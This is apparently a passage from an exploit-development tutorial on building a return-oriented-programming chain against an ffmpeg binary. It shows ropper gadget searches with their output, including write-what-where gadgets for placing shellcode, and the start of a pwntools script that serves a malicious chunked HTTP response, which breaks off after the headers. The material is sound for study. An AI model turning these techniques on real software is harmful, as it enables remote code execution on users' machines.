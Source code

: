 Often, we are required to find gadgets that pop values from the stack into
particular registers. We can search for them like so:

```shell
$ ropper --file ffmpeg_debug --search "pop rsi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rsi

[INFO] File: ffmpeg_debug
...
0x00000000005eb942: pop rdx; lahf; std; jmp qword ptr [rsi + 0x2e];
0x00000000009b7efc: pop rdx; leave; ucomisd xmm8, xmm9; seta al; neg eax; ret;
0x0000000000408859: pop rdx; ret;
0x00000000012244c4: pop rdx; salc; ret 0x7840;
0x000000000126a1c4: pop rdx; stc; stosd dword ptr [rdi], eax; cld; ret 0x2afe;
...
```

Another particularly useful gadget is the write-what-where gadget. These gadgets
provide a primitive to place arbitrary memory in arbitrary locations. This is
useful to write shellcode to a selected location.

```shell
$ ropper --file ffmpeg_debug --search "mov [%], r%x" --quality 1
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov [%], r%x

[INFO] File: ffmpeg_debug
...
0x00000000007f452a: mov qword ptr [rsi + 0x38], rax; ret;
0x0000000000b9e69d: mov qword ptr [rsi + 8], rax; ret;
0x00000000007f4392: mov qword ptr [rsi + 8], rdx; ret;
0x0000000000422544: mov qword ptr [rsi], rdx; ret;
0x0000000000f41ec9: mov qword ptr [rsp + 0x10], r8; call rax;
0x0000000000abfb21: mov qword ptr [rsp + 0x10], rax; call rdx;
0x0000000000da8904: mov qword ptr [rsp + 0x10], rcx; call qword ptr [rcx];
...
```

### Getting RIP Control

To get a ROP chain to work, we need to perform a little manipulation of the
payload. The complete python script to achieve this is as follows:

```python
#!/usr/bin/python

from pwn import *
import time
import socket

# HTTP Headers

headers = """HTTP/1.1 200 OK
Server: PwnServ/v1.0
Date: Sun, 11 Mar 1994 13:37:00 GMT
Content-Type: text/html
Transfer-Encoding: chunked

"""

# ROP Gadgets

```